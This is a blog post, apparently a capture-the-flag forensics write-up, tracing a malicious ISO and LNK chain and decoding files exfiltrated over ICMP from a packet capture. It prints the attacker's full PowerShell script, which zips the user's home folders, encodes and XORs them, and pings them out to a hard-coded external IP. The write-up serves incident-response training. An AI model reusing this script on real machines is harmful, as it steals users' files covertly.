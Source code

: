 ```yaml
---
layout: post
title: WannaGame - Thang Ban Gui 
description: Browser history forensic
tags: [WannaGame, Writeup, Powershell, Wireshark, Blue Team]
---
```


Link challenge: [Click here to get the link](https://drive.google.com/drive/folders/1vlr_l_4v-KXZORsj5HPfCIVGfpa_kD4x)

Hi everyone, after a long time I've not done anything in my blog, now I will share you a challenge that I think it's very interesting and very fun for anyone who want to become an incident responder or just want to learn new things. OK, so let's start!

All we have are two files: network captured file and dump file. I start with dump file, as the name of link challenge: HISTORY IN MEMORY, I've guessed that this is the key to solve this challenge. Not waiting, I've checked all files related to browser history:

And now we have a file started with "Session...", this is a file containing browser histories in Windows, and I've found a suspicious link:

![]({{ site.url }}/assets/images/thangbangui/1.png)

That link redirected me to a [minecraft website](https://hackeverythingssg.id.vn){:target="_blank"}{:rel="noopener noreferrer} which has a suspicious iso file.

I downloaded iso file and mount it, and I have a file named **AutoRun.lnk**. Read that file and I had a powershell command which redirect me to a [github link](https://gist.githubusercontent.com/hackeverythingsgg/722e57dda6c68b644e20a4ee3af4db53/raw/a9b10eafbd516d662c69126dcd8499bdf50a5803/DSKy829rioas.ps1) that containing the malicious file:

```
# Modified from https://gist.github.com/marcgeld/bfacfd8d70b34fdf1db0022508b02aca
# And https://github.com/api0cradle/Powershell-ICMP/blob/master/Powershell-ICMP-Sender.ps1

function Compress {
    [CmdletBinding()]
    Param (
	[Parameter(Mandatory,ValueFromPipeline,ValueFromPipelineByPropertyName)]
        [byte[]] $byte_array = $(Throw("-byteArray is required"))
    )

    [System.IO.MemoryStream] $output = New-Object System.IO.MemoryStream
    $gzip_stream = New-Object System.IO.Compression.GzipStream $output, ([IO.Compression.CompressionMode]::Compress)
    $gzip_stream.Write($byte_array, 0, $byte_array.Length)
    $gzip_stream.Close()
    $output.Close()
    return $output.ToArray()
}

function Exfil {
    [CmdletBinding()]
    Param (
        [Parameter(Mandatory,ValueFromPipeline,ValueFromPipelineByPropertyName)]
        [byte[]] $byte_array = $(Throw("-byteArray is required"))
    )

    $IP = "194.233.68.172"
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $true

    [int]$buf_size = 1337 % $byte_array.Length

    for($i = 0; $i -lt $byte_array.count; $i++) {
        $byte_array[$i] = $byte_array[$i] -bxor 0xfa
    }

    $chunk_num = 1
    $total_chunks = [math]::ceiling($byte_array.Length / $buf_size)
    $data = New-Object byte[] $buf_size

    Write-Output $buf_size
    Write-Output $total_chunks

    $max_retries = 5
    $retry_count = 0

    while ($retry_count -lt $max_retries) {
        $data = $byte_array[($buf_size*($chunk_num-1))..($buf_size*$chunk_num-1)]
        $response = $ICMPClient.Send($IP, 5000, $data, $PingOptions)

        if ($response.Status -eq "TimedOut") {
            $retry_count++
        } else {
            $retry_count = 0 
            $chunk_num++
            if ($chunk_num -gt $total_chunks) { break }
        }
    }

    $data = ([text.encoding]::ASCII).GetBytes("Completed!")
    $ICMPClient.Send($IP, 10, $data, $PingOptions) | Out-Null
}

$version = $host.version.major
$current_user = $Env:UserName
$root_path = "C:\Users\" + $current_user
$zip_path = $($root_path+"\out.zip")
$list = $(Get-ChildItem -Path $root_path)

Add-Type -Assembly "System.IO.Compression.FileSystem";

foreach ($f in $list) {
    $file_path = $($root_path+'\'+$f.name)
    [System.IO.Compression.ZipFile]::CreateFromDirectory($file_path, $zip_path) 
    if ($version -eq 5){
        $byte_array = $(Get-Content $zip_path -Encoding byte)
    }
    else {
        $byte_array = $(Get-Content $zip_path -AsByteStream)
    }
    Remove-Item $zip_path
    $tmp = Compress -byte_array $byte_array
    $base64 = [System.Text.Encoding]::UTF8.GetBytes([convert]::ToBase64String($tmp))
    Exfil -byte_array $base64
}
```

Now let's analyze that file. As we can see in the source, there are 2 main functions: Compress and Exfil. 
- Compress function: it will compress all datas into gzip file 
- Exfil function: Use that IP to send ICMP packet and each byte in ICMP has been encrypted with XOR algorithm which use "0xfa" as the key to encrypt 
and in other parts, they will encode all datas in base64 format. 

Follow the workflow, it has the order: XOR - Base64 - Gzip
- First, I've extracted all ICMP data and remove all duplicated strings and all bytes which stand for "Completed!":

```
tshark -r challenge.pcapng -T fields -Y 'icmp and ip.src == 194.233.68.172' -e 'data.data' > old
sort -u old | uniq > old
```

- Use CyberChef to decrypt data and save as gzip file:

![]({{ site.url }}/assets/images/thangbangui/2.png)

- Decompress gunzip file 

```
gunzip download.gz
```

From here I've read that file and I've realised that there're some files inside this file, so I use binwalk to extract all files inside:

![]({{ site.url }}/assets/images/thangbangui/3.png)

And the file has made me question is excel file; not waiting, I've opened file in Windows and finally I've found the flag 

![]({{ site.url }}/assets/images/thangbangui/4.png)

![]({{ site.url }}/assets/images/thangbangui/5.png)
